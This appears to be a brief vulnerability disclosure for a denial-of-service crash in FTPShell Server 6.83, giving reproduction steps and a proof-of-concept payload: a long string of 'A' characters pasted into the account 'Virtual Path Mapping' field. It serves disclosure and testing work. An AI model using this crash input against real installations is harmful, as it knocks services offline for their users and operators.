 # FTPShell Server 6.83  -- Denial of Service

Discoverer: leiothrix  
Discovery time: 2019/4/27  
Tested Version: 6.83  
Software Link: http://www.ftpshell.com/downloadserver.htm  

```
Steps to exploit:
1.Run Python Code
2.Open the txt file and copy content to clipboard
1.Open FTPShell Server
2.Select "Manage FTP Accounts"
3.Select "Configure accounts..."
4.Select "Add path" and in "Virtual Path Mapping" Paste Clipboard
5.Click on "OK"
```

POC:
>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Result map:
![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/a.png)

![图片](https://github.com/cve-vul/vul/blob/master/FTPShell/b.png)
